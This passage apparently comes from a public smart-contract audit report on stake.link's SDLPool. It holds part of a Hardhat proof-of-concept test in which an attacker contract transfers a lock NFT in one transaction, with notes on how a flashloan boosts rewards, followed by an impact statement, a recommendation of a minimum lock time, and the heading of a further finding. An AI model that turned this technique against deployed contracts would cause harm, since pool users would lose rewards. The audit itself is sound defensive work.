 ```
      { amount: 100, boostAmount: 100, startTime: ts, duration: 365 * DAY, expiry: 0 },
    ])

    // Move one block forward
  //await ethers.provider.send('evm_mine', []);
  //console.log("Parsed lock :",parseLocks(await sdlPool.getLocks([1])))
  })
  //@audit NFT onERC721receiver doesnt work it seems..
  it('usage of Attack contract and receiving NFT', async () => {
  console.log("Block-number before tx:",await ethers.provider.getBlockNumber())
  let ts = (await ethers.provider.getBlock(await ethers.provider.getBlockNumber())).timestamp
          // Move one block forward
  await ethers.provider.send('evm_mine', [ts+1]);
  console.log("SDLToken  balance Before:",await sdlToken.balanceOf(attacker.address))
  await attacker.attackTransfernCall()
  console.log("Lock",parseLocks(await sdlPool.getLocks([1])))
  console.log("Block-number after tx:",await ethers.provider.getBlockNumber())
  console.log("Nft received ??:",await attacker.received());
//boostAmount: 0.0006341958 20_000 -> with flashloan
//boostAmount: 0.000006342  200  
  })
})

```

## Impact
Loss of pool reward gained by rebasing.
## Tools Used

Hardhat-manuel review

## Recommendations

Setting lower-limit of locking time to stop bypassing 1 transaction lock-unlock-withdraw .This way it might stop the flashloan attacks too.
Preferable  minimum 1 day.
## <a id='L-10'></a>L-10. No Check for Transferring to Self

_Submitted by [Wish](/profile/clqivzpn10000roxk5051p0t2), [crippie](/profile/clkitmhs50000l508e5tvl2w2), [0xHackerNight](/profile/cln0hezsl0008jt096eepzvj9). Selected submission by: [Wish](/profile/clqivzpn10000roxk5051p0t2)._      
				
### Relevant GitHub Links
	
https://github.com/Cyfrin/2023-12-stake-link/tree/main/contracts/core/sdlPool/base/SDLPool.sol#L460-462

## Summary

